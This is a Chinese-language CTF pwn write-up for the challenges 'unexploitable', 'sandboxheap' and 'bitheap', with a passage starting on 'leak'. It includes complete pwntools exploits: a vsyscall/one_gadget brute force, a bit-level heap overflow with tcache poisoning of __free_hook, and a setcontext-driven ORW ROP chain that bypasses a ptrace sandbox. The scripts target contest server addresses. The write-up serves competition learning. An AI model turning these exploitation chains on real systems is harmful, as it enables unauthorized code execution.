unexploitable
保护策略：

利用思路：

因为程序仅仅有一个read函数，没有canary，而且溢出的字节非常大，所以本题可以随便溢，但问题是没有后门函数，并且没有输出函数。在开了PIE的情况下，很多花活是没法用的。
通过调试发现，在main函数返回到libc_start_main函数的时候，该地址是一个libc地址，而让执行流跳到一个地址就能get shell的地址只有one_gadget。通过用set命令更改内存的值为one_gadget，发现第一个one_gadget就能用(如下)
于是思路就是将libc start main的后三字节，改为one_gadget地址(由于libc地址后三位是固定的，所以我们需要爆破前三位，概率为1/4096)。
但如果我们单纯的填垃圾数据，然后溢出篡改的话，情况如下
即使我们溢出篡改了libc_start_main,也会返回到它上面的地址，所以我们需要让执行流滑到libc_start_main上，开了PIE保护，我们无法直接获取ret指令的地址，但是vsyscall的地址始终是固定的，它可以当做ret指令来用。
所以我们把上图的0xdeadbeef改成vsyscall的地址即可，执行到vsyscall的时候就可以往下滑到爆破成功的one_gadget，从而获取shell。
EXP:
from pwn import *context.log_level='debug' context.arch='amd64' def pwn (): payload=p64(0xdeadbeef )*3 +p64(0xffffffffff600000 )*2 +b'\xa5\x22\x06' p.send(payload) p.sendline('cat flag' ) a=p.recv(timeout=0.5 ) if not a: return p.interactive() while 1 : try : p=remote("101.201.71.136" ,41614 ) pwn() except EOFError: p.close()

hhhh，运气不够，终端来凑，开了12个，爆了六七分钟。
sandboxheap
保护策略：

沙箱分析：
因为本人比较菜，第一次见到题目给的这种沙箱文件，再加上比较好奇，就研究了一番，大致的分析过程如下：
通过查阅资料发现ptrace(PTRACE_GETREGS, child_pid, NULL, ®s)的第四个参数是®s，而这个regs是在ptrace.h定义的一个结构体user_regs_struct(用来保存各个寄存器的值)，我们再去看下IDA里的伪代码(如下)，发现第四个参数是v8，因此判断v8就是user_regs_struct结构体

所以我们去将v8的类型改成user_regs_struct(如下)
同时还可以看到由于v8确定为结构体后，里面的一些寄存器也在IDA中显示了出来

这时候我们从头分析一下，fork的返回值给了v3，然后又把v3给v4.接着if(v3)，而fork函数会有两个返回值，原本的父进程会返回子进程的id,而子进程则返回0。所以接下来的if(v3)只有父进程(sandbox)能进

子进程返回的是0，所以触发else(如下)

第一行的ptrace(PTRACE_TRACEME, 0LL, 0LL, 0LL)表示被父进程跟踪，任何信号(包括子进程中执行的syscall)都会暂停子进程，阻塞与wait()等待的父进程被唤醒。第二行的execvp则执行了a2[1]这个文件，a2则是命令行参数，这道题的沙箱自然是给sandboxheap开的，所以本题正确的运行方式应该是./sandbox ./sandboxheap ，这样子进程就调用了题目的附件。从而实现了个sandboxheap开了一个沙箱保护。
接着回到父进程那边，现在去看一下这个沙箱是怎么实现对某些系统调用的拦截的

在①的位置使用了ptrace(PTRACE_GETREGS, child_pid, NULL, ®s)，此时子进程的寄存器信息会存储到regs结构体里，而在②的上面一行，去赋给了regs.rax为-1，然后执行②的时候，ptrace(PTRACE_SETREGS, child_pid, NULL, ®s) 会将regs结构体里的值拷贝给子进程的各个寄存器，这样子进程的rax就变成了-1，当子进程去执行syscall的时候发现rax是一个无效的系统调用号，就会报bad syscall从而完成了拦截。
而我们要绕过沙箱的禁用，所以想办法不能被拦截下来。重新看一下规则，只要我们能保证这个位置的数值是0，那就不会被拦截下来(如下)

但是在最开始执行alarm系统调用(系统调用号为37)的时候，对0x202040这片内存进行了赋值为1的操作(如下)，也就是说正常的话，我们rax无论是多少，最终加上0x202040这个地址拿到的都是1，从而被拦截。


但是我们发现程序里给了一些位置为0的机会，我们将给的这些地址都去减0x202040后，看一下对应的系统调用(如下)
如果我们想把open和read、write都位置都置成1，那就需要下面的两个if全部进入，而a1如果为3的话，就可以满足两个if的判断

这个a1就是rdi，而想进入这个函数，需要rax为0x2710(如下)

综上所述，如果我们想完成orw的话，需要在此之前设置rdi为3 rax为0x2710并执行一次syscall，才能自定义一个能够orw的白名单。
漏洞所在：
在edit函数里，input函数(函数已重命名)的参数有个+1，所以判断这里是存在个溢出的。
然后input函数里面是这样的(如下)

说实话这个我没太看懂，不过根据调试和师傅们的提示，感觉这里的大概意思就是说，我们输入的一个字节只取末尾一个比特，而八个字节就会取出来八个比特，这取出来的八个比特才表示出了一个字节。在以前我们想发送p64()打包后的数据，仅仅只需要发送八字节，但是在这题里，我们需要用64个字节来表示一个八字节的地址。
举个例子，我们原本要往内存里写一个地址为0xdeadbeef，以前的话，我们使用p64(0xdeadbeef)即可，但是这道题的话，我们使用下面的部分才能达到同样的效果
(bin (0xdeadbeef )[2 :].rjust(64 ,'\x00' ).encode()[::-1 ])
重新回到漏洞上面，这道题通过调试可以发现是溢出了一个比特，其实跟off by null的思路一样，都是去溢出然后篡改堆块的prev_inuse位，然后去打一个堆块合并。但是这道题还有一个难点就是有沙箱保护，通过分析沙箱规则，我们需要打一条rop链。因此对应的策略就是用setcontext来改变寄存器的值，从而将执行流劫持到rop链上
利用思路：
由于我们需要打堆块合并，所以需要让合并的堆块释放掉能够进入unsorted bin，因此第一件事是先填满tcache bin。接着去打堆块合并,脚本如下：
for i in range (11 ): add(i,0x88 ) for i in range (7 ): delete(i) delete(7 ) payload=b'1' *(0x80 *8 )+b'00000100' +b'10000000' +b'00000000' *6 +b'00000000' edit(8 ,payload) delete(9 )
接下来去泄露堆地址和libc地址，大致思路就是做堆块重叠，让一块被释放掉的内存落在一个正在使用的堆块中，从而执行show函数完成泄露libc和堆地址。
for i in range (7 ): add(i,0x80 ) add(12 ,0xc0 ) show(12 ) leak_libc=recv_libc() libc_base=leak_libc-0x3ebe40 log_addr('libc_base' ) free_hook=libc_base+libc.symbols['__free_hook' ] context_addr=libc_base+libc.symbols['setcontext' ]+53 log_addr('free_hook' ) delete(8 ) payload=b'1' *(0x98 *8 ) edit(12 ,payload) show(12 ) p.recvuntil(0x98 *"\xff" ) heap_addr=u64(p.recv(6 ).ljust(8 ,b'\x00' )) log_addr('heap_addr' )
最后去打一个tcache poisoning,将free_hook申请出来，然后写入setcontext+53的地址，提前在堆块中布置好各个寄存器的值，最后去释放掉该堆块。即可控制各个寄存器，从而去执行系统调用read。将rop链读到执行流上，从而执行rop链(orw)读出flag。
关于setcontext
由于是第一次利用这个setcontext，所以对setcontext做一点总结。
这个setcontext是libc库里的一个函数，汇编代码如下:

通过汇编代码发现，该函数主要是通过取rdi加上偏移的内存来对大部分寄存器进行了赋值，如果我们能够控制rdi，并且让rdi之后的一定内存都是可控的，就相当于我们可以控制大部分寄存器的值了。假设我们将free_hook劫持为setcontext+53的地址,因为free函数时rdi本身就是堆块的地址，所以rdi之后的内存我们也是可控的，这样下次执行free的时候，就可以控制大部分的寄存器了。需要注意的是，为了保证执行流不断，所以我们要控制rcx寄存器，在上面的汇编中有一个push rcx，而接下来最后是一个ret可以将执行流控制到rcx上，换句话说，最后setcontext执行完的rip由rcx决定。利用思路就是设置大部分寄存器，然后去打一个read的系统调用，将orw的rop链读到read函数要返回的地址上，完成orw。
EXP：
from tools import *context.log_level='debug' context.arch='amd64' def add (index,size ): p.sendlineafter("Your choice: " ,str (1 )) p.sendlineafter("Index: " ,str (index)) p.sendlineafter("Size: " ,str (size)) def edit (index,content ): p.sendlineafter("Your choice: " ,str (2 )) p.sendlineafter("Index: " ,str (index)) p.sendafter("Content: " ,content) def show (index ): p.sendlineafter("Your choice: " ,str (3 )) p.sendlineafter("Index: " ,str (index)) def delete (index ): p.sendlineafter("Your choice: " ,str (4 )) p.sendlineafter("Index: " ,str (index)) p,e,libc=load("a" ,"47.95.3.91:12243" ) for i in range (11 ): add(i,0x88 ) for i in range (7 ): delete(i) delete(7 ) payload=b'1' *(0x80 *8 )+b'00000100' +b'10000000' +b'00000000' *6 +b'00000000' edit(8 ,payload) delete(9 ) payload=bin (0x67616c662f2e )[2 :].rjust(64 ,'\x00' ).encode()[::-1 ] edit(10 ,payload) for i in range (7 ): add(i,0x80 ) add(12 ,0xc0 ) show(12 ) leak_libc=recv_libc() libc_base=leak_libc-0x3ebe40 log_addr('libc_base' ) free_hook=libc_base+libc.symbols['__free_hook' ] context_addr=libc_base+libc.symbols['setcontext' ]+53 log_addr('free_hook' ) delete(8 ) payload=b'1' *(0x98 *8 ) edit(12 ,payload) show(12 ) p.recvuntil(0x98 *"\xff" ) heap_addr=u64(p.recv(6 ).ljust(8 ,b'\x00' )) log_addr('heap_addr' ) payload=b'1' *(0x80 *8 )+(bin (0x0 )[2 :].rjust(64 ,'\x00' ).encode())+(bin (0x101 )[2 :].rjust(64 ,'\x00' ).encode())+(bin (free_hook)[2 :].rjust(64 ,'\x00' ).encode()[::-1 ]) edit(12 ,payload) add(13 ,0x80 ) pop_rdi_ret = libc_base + 0x000000000002164f pop_rsi_ret = libc_base + 0x0000000000023a6a pop_rdx_r12_ret = libc_base + 0x0000000000130514 pop_rax_ret = libc_base + 0x000000000001b500 syscall = libc_base + 0x00000000000d2625 payload=(bin (0x110020 +libc_base)[2 :].rjust(64 ,'\x00' ).encode()[::-1 ]) payload+=(bin (0xdeadbeef )[2 :].rjust(64 ,'\x00' ).encode()[::-1 ])*12 payload+=(bin (0x0 )[2 :].rjust(64 ,'\x00' ).encode()[::-1 ]) payload+=(bin (heap_addr+0x640 )[2 :].rjust(64 ,'\x00' ).encode()[::-1 ]) payload+=(bin (0xdeadbeef )[2 :].rjust(64 ,'\x00' ).encode()[::-1 ])*3 payload+=(bin (0x800 )[2 :].rjust(64 ,'\x00' ).encode()[::-1 ]) payload+=(bin (0xdeadbeef )[2 :].rjust(64 ,'\x00' ).encode()[::-1 ])*1 payload+=(bin (heap_addr+0x648 )[2 :].rjust(64 ,'\x00' ).encode()[::-1 ]) payload+=(bin (0x110020 +libc_base)[2 :].rjust(64 ,'\x00' ).encode()[::-1 ]) edit(12 ,payload) add(14 ,0x80 ) payload=bin (context_addr)[2 :].rjust(64 ,'\x00' ).encode()[::-1 ] edit(14 ,payload) debug(p,'pie' ,0xED6 ,0xEE2 ,0xEEE ,0xEFA ,0xC9F ,0xBA7 ) delete(12 ) orw = b'a' *8 orw+=p64(pop_rdi_ret)+p64(3 ) orw+=p64(pop_rax_ret)+p64(0x2710 ) orw+=p64(syscall) orw+=p64(pop_rdi_ret) + p64(0 ) orw += p64(libc_base + libc.symbols['close' ]) orw += p64(pop_rdi_ret) + p64(heap_addr + 0x7f0 ) orw += p64(pop_rsi_ret) + p64(0 ) orw += p64(pop_rax_ret) + p64(2 ) orw += p64(syscall) orw += p64(pop_rdi_ret) + p64(0 ) orw += p64(pop_rsi_ret) + p64(heap_addr + 0x5b0 ) orw += p64(pop_rdx_r12_ret) + p64(0x30 ) + p64(0 ) orw += p64(pop_rax_ret) + p64(0 ) orw += p64(syscall) orw += p64(pop_rdi_ret) + p64(1 ) orw += p64(pop_rsi_ret) + p64(heap_addr + 0x5b0 ) orw += p64(pop_rdx_r12_ret) + p64(0x30 ) + p64(0 ) orw += p64(pop_rax_ret) + p64(1 ) orw += p64(syscall) pause() p.send(orw) p.interactive()

bitheap
这个题就是没加沙箱的sandboxheap，一模一样
而且比较巧的是，setcontext和分析沙箱规则都是比赛期间现学的，在打rop链之前，我专门去写了一个劫持free_hook写入system地址然后获取shell的脚本(没给这题开沙箱)，而且还当时专门保留了一份
思路同上题一样，不过最后写入的是system地址而非setcontext+53，脚本如下:
EXP:
tools-函数库 | ZIKH26’s Blog
from tools import *context.arch='amd64' def add (index,size ): p.sendlineafter("Your choice: " ,str (1 )) p.sendlineafter("Index: " ,str (index)) p.sendlineafter("Size: " ,str (size)) def edit (index,content ): p.sendlineafter("Your choice: " ,str (2 )) p.sendlineafter("Index: " ,str (index)) p.sendafter("Content: " ,content) def show (index ): p.sendlineafter("Your choice: " ,str (3 )) p.sendlineafter("Index: " ,str (index)) def delete (index ): p.sendlineafter("Your choice: " ,str (4 )) p.sendlineafter("Index: " ,str (index)) p,e,libc=load("a" ,"47.95.3.91:23899" ) for i in range (11 ): add(i,0x88 ) for i in range (7 ): delete(i) delete(7 ) payload=b'1' *(0x80 *8 )+b'00000100' +b'10000000' +b'00000000' *6 +b'00000000' edit(8 ,payload) delete(9 ) for i in range (7 ): add(i,0x80 ) add(12 ,0xa0 ) show(12 ) leak_libc=recv_libc() libc_base=leak_libc-0x3ebe40 log_addr('libc_base' ) free_hook=libc_base+libc.symbols['__free_hook' ] sys_addr=libc_base+libc.symbols['system' ] delete(8 ) log_addr('free_hook' ) payload=b'1' *(0x80 *8 )+(bin (0x0 )[2 :].rjust(64 ,'\x00' ).encode())+(bin (0x101 )[2 :].rjust(64 ,'\x00' ).encode())+(bin (free_hook)[2 :].rjust(64 ,'\x00' ).encode()[::-1 ]) edit(12 ,payload) add(13 ,0x80 ) payload=bin (0x68732f6e69622f )[2 :].rjust(64 ,'\x00' ).encode()[::-1 ] edit(12 ,payload) add(14 ,0x80 ) payload=bin (sys_addr)[2 :].rjust(64 ,'\x00' ).encode()[::-1 ] edit(14 ,payload) debug(p,'pie' ,0xED6 ,0xEE2 ,0xEEE ,0xEFA ,0xC9F ) delete(12 ) p.interactive()
本地获取shell的情况，同样打远程也ok(或者拿着sandboxheap的exp直接打也行)
leak
保护策略：


emmm这个沙箱，感觉开了和没开一样。
程序分析：
在delete函数里存在UAF漏洞(如下)
